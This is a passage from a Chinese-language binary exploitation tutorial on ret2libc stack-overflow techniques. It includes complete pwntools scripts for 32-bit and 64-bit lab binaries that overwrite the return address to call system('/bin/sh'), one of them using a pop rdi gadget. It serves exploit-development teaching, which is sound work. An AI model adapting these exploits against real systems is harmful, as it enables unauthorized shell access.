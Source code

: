而如果直接覆盖run函数的函数返回地址为system的plt表的话，栈结构则是如下

![9b034b0c5d7614b4f01222062d1b9aa0](images/9b034b0c5d7614b4f01222062d1b9aa0.png)  

相比较与call指令来说，我们可以更容易控制system执行完后的程序流，当执行到run函数的ret指令后，整个栈结构为

![0c4bd8b215c5587260585f041cbf6f11](images/0c4bd8b215c5587260585f041cbf6f11.png)  

其实就是少了push函数返回地址的步骤。最后我们就可以写出Exploit

```python
from pwn import*
o = process("./ret2libc1_32")
call_system = 0x8048449
bin_sh = 0x8048510
payload = b'a'*28
payload += p32(call_system)    # 覆盖函数返回地址为call system地址
payload += p32(bin_sh)    # 给call system的参数
o.sendline(payload)
o.interactive()
```

![78cff2241033658a3d38cf06ea172ca1](images/78cff2241033658a3d38cf06ea172ca1.png)  

#### ret2libc1 x64

对比32位就是参数的问题，它需要把参数传递给寄存器才行，所以需要去搜索可用的gadget先设置参数，再调用system。最常用的gadget就是 `pop rdi;ret` 指令，栈结构为

![9a8ed63bb88295c6ff0bb0a5941d1003](images/9a8ed63bb88295c6ff0bb0a5941d1003.png)  

执行流程为先执行pop rdi将字符串地址弹如rdi寄存器中，然后执行ret指令跳转执行system函数，对于这里来说，call system和system的plt都不影响参数的设置，所以随便哪个都行可以不用管函数返回地址，脚本为

```python
from pwn import*
o = process("./ret2libc1_64")
pop_rdi = 0x400613
bin_sh = 0x400634
call_system = 0x40056f
payload = b'a'*0x18
payload += p64(pop_rdi) + p64(bin_sh)    # 设置参数
payload += p64(call_system)
o.sendline(payload)
o.interactive()
```

![7f9c474234169a4e9fca4d9c1740e734](images/7f9c474234169a4e9fca4d9c1740e734.png)  

### ret2libc2

第二种情况就是没有 `/bin/sh` 字符串的情况，这时候就得想办法写入 `/bin/sh` 字符串到一个固定位置，然后在把其地址给system作为参数。我们既然可以调用system函数，那么我们也可以调用其他函数，比如写入函数，就拿上面那个例子来说，我们可以调用gets函数并给它一个可写段的地址作为参数，然后我们写入该地址 `/bin/sh` 字符串后再将该地址作为参数传递给system函数即可获取shell
